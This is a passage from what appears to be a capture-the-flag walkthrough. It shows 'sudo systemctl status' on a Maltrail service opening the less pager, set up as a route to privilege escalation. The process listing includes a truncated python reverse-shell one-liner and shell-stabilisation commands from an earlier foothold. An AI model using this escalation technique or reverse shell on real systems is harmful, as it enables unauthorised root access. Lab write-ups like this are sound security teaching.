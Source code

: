 
Running this command prints the status of the service:

    
    
    puma@sau:~$ /usr/bin/systemctl status trail.service
    ● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 10 (limit: 4662)
         Memory: 24.4M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1244 sh                              
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…
                 ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 └─1280 /usr/bin/systemctl status trail.service
    

### Exploit Less

If the screen is not big enough to handle the output of `systemctl`, it gets
passed to `less`. In fact, because I’m in a weird TTY, when I run with `sudo`,
this happens:

    
    
    puma@sau:~$ sudo /usr/bin/systemctl status trail.service 
    WARNING: terminal is not fully functional
    -  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 12 (limit: 4662)
         Memory: 26.7M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1244 sh
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
                 ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 ├─1281 sudo /usr/bin/systemctl status trail.service
                 ├─1282 /usr/bin/systemctl status trail.service
                 └─1284 pager
    